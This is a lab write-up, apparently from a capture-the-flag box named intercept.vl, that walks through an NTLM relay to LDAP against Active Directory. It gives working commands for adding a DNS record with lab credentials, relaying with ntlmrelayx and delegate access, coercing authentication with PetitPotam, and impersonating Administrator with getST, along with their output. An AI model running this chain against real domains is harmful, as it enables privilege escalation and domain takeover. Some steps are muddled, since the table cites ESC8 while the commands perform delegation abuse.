 ```yaml
---
title:  NTLM Relay - over LDAP
date: 2025-05-19 06:01:00 +/-TTTT
categories: [NTLM-Relay]
tags: [NTLM Relay - over LDAP]     # TAG names should always be lowercase
image : /assets/images/ntlmldap.gif
---
```

## Entry

| **Step**                            | **Description**                                                                                                                                              |                                                                                                                                                                      |
| ----------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **1. Check MachineAccountQuota**    | Use PowerView (\`Get-ADDomain                                                                                                                                | select ms-DS-MachineAccountQuota\`) to check if you’re allowed to create new machine accounts. This is key for creating a machine identity to request a certificate. |
| **2. Identify Web Enrollment**      | Visit `http://<DC>/certsrv/` in a browser. If the Web Enrollment page is accessible, AD CS is likely installed and exploitable.                              |                                                                                                                                                                      |
| **3. Test LDAP Signing**            | Use tools like `ldap-checker.py` or `ldapdomaindump` to check if LDAP signing is enforced. If it's **not enforced**, the target is vulnerable to NTLM relay. |                                                                                                                                                                      |
| **4. Trigger Auth with PetitPotam** | Launch **PetitPotam** to coerce the target to authenticate over SMB — this sets up the NTLM authentication we’ll relay.                                      |                                                                                                                                                                      |
| **5. Relay NTLM to LDAP**           | Use **krbrelayx** to capture the NTLM hash and relay it to LDAP to request a certificate via ESC8.                                                           |                                                                                                                                                                      |
| **6. Abuse the Certificate**        | Use **Rubeus** or Impacket's `getTGT.py` to authenticate as the target user with the certificate and escalate privileges.                                    |                                                                                                                                                                      |


## Attack

First of all i have to verify something i will write in image description.

![alt text](../assets/images/ntlmldap1.png)

Okey now we have to configure something then we can continue.

>its gonna fail ur ass if u wount configure ur /etc/resolv.conf
{: .prompt-tip}

```sh
➜  Intercept cat /etc/resolv.conf
Generated by NetworkManager
search home
nameserver <DC-IP>
```

Now we need [dnstool.py](https://github.com/dirkjanm/krbrelayx) to add a dns entry. otherwise it wont work here is [why?](https://www.bussink.net/rbcd-webclient-attack/)

```sh
➜  Intercept python3 krbrelayx/dnstool.py -u intercept.vl\\kathryn.spencer -p 'Chocolate1' -r osman.intercept.vl -d 10.8.2.152 --action add dc01.intercept.vl
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```
lets verify it.

![alt text](../assets/images/ntlmldap2.png)

Now lets start our attack!!!!! first of all start ntlmrelayx

```sh
ntlmrelayx.py -smb2support -t ldaps://dc01.intercept.vl --delegate-access
```

then we can start petitpotam but:
>IP-adress in the last should be WebClient Server IP to match Relay.
{: .prompt-tip}

```sh
python3 PetitPotam.py -d intercept.vl -u 'Kathryn.Spencer' -p 'Chocolate1' -d intercept.vl irem@80/aaa 10.10.171.246(WS01)
```
![alt text](../assets/images/ntlmldap3.png)

Everything seems great if u will check ur **ntlmrelay** output u should be get RELAY computer Creds

![alt text](../assets/images/ntlmldap4.png)

Nice!!!!!!!!!! now we can just use getST to authenticate as the target user and dump Administrator.ccache

```sh
➜  Intercept python3 /opt/impacket/examples/getST.py -spn 'cifs/ws01.intercept.vl' -impersonate Administrator -dc-ip '10.10.171.245' 'intercept.vl/UZLIHXGF$'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_ws01.intercept.vl@INTERCEPT.VL.ccache
```

